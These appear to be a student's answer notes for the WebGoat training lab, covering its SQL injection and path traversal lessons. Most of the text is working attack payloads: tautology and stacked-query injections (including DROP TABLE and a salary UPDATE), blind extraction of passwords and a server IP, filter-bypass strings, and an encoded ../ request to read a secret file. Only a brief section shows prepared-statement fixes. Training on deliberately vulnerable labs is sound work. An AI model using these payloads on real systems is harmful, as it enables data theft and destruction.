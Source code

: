 # SQL Injection (Intro)
### 2 SELECT department FROM employees WHERE userid = 96134
### 3 UPDATE employees SET department = 'Sales' WHERE last_name = 'Barnett'
### 4 ALTER TABLE employees ADD phone varchar(20)
### 5 GRANT ALL ON grant_rights TO unauthorized_user
### 9 SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
### 10 SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1
### 11 ' OR 1 =1 --
### 12 '; UPDATE employees SET salary=100000 WHERE last_name = 'Smith' -- 
### 13 '; DROP TABLE access_log

# SQL Injection (Advanced)
### 3 SELECT * FROM user_data WHERE last_name = 'Smith'; SELECT * FROM user_system_data --'
### 5 tom' AND '1'='1
    returns: User {0} already exists please try to register with a different username.

   tom' AND '1'='2
    returns: User tom' AND '1'='2 created, please proceed to the login page.

   what means that register form changes output based on bool value returned by query.
   We will use script inject_script.py which sends 'tom\' AND substring(password,{password_index + 1},1)=\'{alphabet[alphabet_index]}' in put method to register field
### 6
    1.4
    2.3
    3.2
    4.3
    5.3
    6.4

# SQL Injection (Mitigation)
### 5
    getConnection
        PreparedStatement statement
    prepareStatement
    ?
    ?
    statement.setString(1, pName)
    statement.setString(2, pMail)

### 6
try {
    Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
    String query = "SELECT first_name, last_name, FROM users WHERE acct_id = ?";
    PreparedStatement statement = conn.prepareStatement(query);
    statement.setString(1, "sdsd");
    ResultSet results = statement.executeQuery();
} catch (Exception e) {
    System.out.println("Oops. Something went wrong!");
}

### 9
'OR'1'='1';SELECT/**/*/**/FROM/**/user_system_data;--

### 10
'SSELECTELECT' -> leaves SELECT

'sSELECTelect/**/*/**/fFROMrom/**/USER_SYSTEM_DATA;--'

### 12
(CASE WHEN (SELECT substring(ip, 1, 1) FROM servers where hostname = 'webgoat-prd') = '1' THEN ip ELSE mac END)
(CASE WHEN (SELECT substring(ip, 1, 2) FROM servers where hostname = 'webgoat-prd') = '10' THEN ip ELSE mac END)
(CASE WHEN (SELECT substring(ip, 1, 3) FROM servers where hostname = 'webgoat-prd') = '104' THEN ip ELSE mac END)


ip = 104.130.219.202

# Path Traversal
### 2
1. open ZAP
2. add some file
3. start breakpoint with HTTP request header
4. change to Text type (up)
4. go all the way down in text message and change fullName = ../gabi

### 3 
....//test in username field is enough

### 4 
Use ZAP, change filename field to '../gabi'

### 5
1. Burp
2. open web browser
3. go to page 5
4. start intercatping
5. click gen random cat
6. sento to repeater (ctr+r)
7. change first line to:
GET /WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret HTTP/1.1

You found it submit the SHA-512 hash of your username as answer
sha512(gabriel) = 5dbe7d079067809bb06f7c80de78ecb9d914f5735265148cd704f85353fc0b5114ebbfc960539cd3f430e7b12eb3fdc261726bb756bab9658c6db6a302913df1

### 7
Make new zip file, with any file. It passes